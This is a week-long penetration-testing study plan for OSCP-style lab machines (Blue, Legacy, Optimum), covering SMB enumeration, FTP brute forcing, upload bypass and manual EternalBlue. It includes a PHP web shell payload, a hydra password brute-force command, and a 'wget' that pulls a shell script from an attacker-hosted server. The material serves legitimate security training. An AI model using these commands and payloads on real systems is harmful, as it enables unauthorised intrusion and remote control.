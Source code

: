 # 🔓 Week 2: Exploitation & Initial Access

---
## 🎯 Objectives
- Master low-privilege shell acquisition through exposed services
- Exploit FTP, SMB, HTTP manually (no `msfconsole`)
- Begin chaining recon → exploit paths
- Document shell access steps like an OSCP pro

--- 

# 🛠️ Tools to Master
- `hydra` - Brute-force logins (FTP/SSH/HTTP)
- `smbclient` - Connect to open shares
- `ftp` - Explore anonymous FTP access
- `nmap --script` - Use NSE scripts for vulnerable service checks
- `nc`, `telnet` - Manual banner grabbing and shell testing
- `wget`, `curl` - File transfers (pull shell payloads)
- `python3 -m http.server` - Host reverse shell payloads

---
## 💻 Machines to Root
- Machine Skills Targeted
- Blue EternalBlue (manual use of `ms17_010`)
- Legacy SMBv1 exploitation, guest access
- Optimum HTTP service → file upload → RCE

--- 

# 🗓️ Daily Breakdown

--- 
## 📅 Monday – Exploit SMB Services

✅ Objective:
- Understand vulnerable SMB configurations (guest access, old versions)
- Practice manual enumeration & connection

🔧 Tasks:
Run:

```bash
nmap -p 445 --script smb\* 192.168.X.X
enum4linux-ng 192.168.X.X
smbclient -L \\\\192.168.X.X\\
smbclient \\\\192.168.X.X\\<share>
```

- Attempt to retrieve config files, creds, upload shell if writable

📄 Deliverables:
- Report findings on SMB: shares, access rights, files pulled

---

## 📅 Tuesday – FTP / SSH Brute Force + File Transfers

✅ Objective:
- Enumerate anonymous FTP
- Use hydra for bruteforcing if login pages exist

🔧 Tasks:
Run:

```bash
ftp 192.168.X.X
hydra -l user -P /usr/share/wordlists/rockyou.txt ftp://192.168.X.X
```

- Learn how to pull files with ftp, push shells if allowed
- Set up HTTP server:

```python
python3 -m http.server 80
```

- Pull shell from victim:

```bash
wget http://attacker-ip/shell.sh
```

📄 Deliverables:
- Notes on file upload/download between attacker & victim

---

## 📅 Wednesday – HTTP Exploits & Upload Bypass

✅ Objective:
- Discover file upload fields
- Try bypassing extension filtering
- Gain reverse shell via HTTP file upload

🔧 Tasks:
- Tools: `burpsuite`, `curl`, `ffuf` for parameter fuzzing
- Upload payload:

```php
<?php system($_GET['cmd']); ?>
```

- Access it:
```bash
curl http://victim/uploads/shell.php?cmd=id
```

📄 Deliverables:
- Document exploitation via web shell
- Include screenshots + payloads used

---

## 📅 Thursday – EternalBlue Without Metasploit (Blue)

✅ Objective:
- Perform manual exploit of MS17-010
- Use Python/Impacket-based scripts, not Metasploit

🔧 Tasks:
- Use this repo: https://github.com/worawit/MS17-010
- Clone, compile, and test:

```bash
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
```

- Follow instructions to test and run exploit

📄 Deliverables:
- Write step-by-step for exploiting EternalBlue without msf

---

## 📅 Friday – Root Legacy & Document

✅ Objective:
- Apply all recon & SMB knowledge to root the box

🔧 Tasks:
- Enumerate SMB shares
- Look for vulnerable services (`nmap -p-`, `--script vuln`)
- Use known public exploits or brute-force shell

📄 Deliverables:
- `legacy-report.md` written from scratch
- Include: recon summary, exploitation method, privesc if needed

---

## 📅 Saturday – Root Optimum & Document

✅ Objective:
- Identify weak HTTP file handling
- Upload malicious payload and gain reverse shell

🔧 Tasks:
- Enumerate web directories
- Upload `shell.aspx` or `.php` via web interface
- Trigger via browser or `curl`

📄 Deliverables:
- `optimum-report.md`
- Payload details, screenshot of shell, steps to gain access

---

## 📅 Sunday – Weekly Wrap-Up & Reflection

✅ Objective:
- Review what worked, what didn’t
- Update `cheatsheet` and `study-log`

🔧 Tasks:
- `notes.md`: list all commands used this week
- `study-log.md`: answer these:
	- What shell method was most effective?
	- Where did you get stuck and how did you overcome it?
	- What should you practice again before Week 10?

---

## ✅ End-of-Week Checklist
- Rooted Blue (manual EternalBlue)
- Rooted Legacy (SMB, no Metasploit)
- Rooted Optimum (file upload exploit)
- 3 full reports written and saved
- `notes.md` and `study-log.md` updated
- Built strong muscle memory for getting shells manually
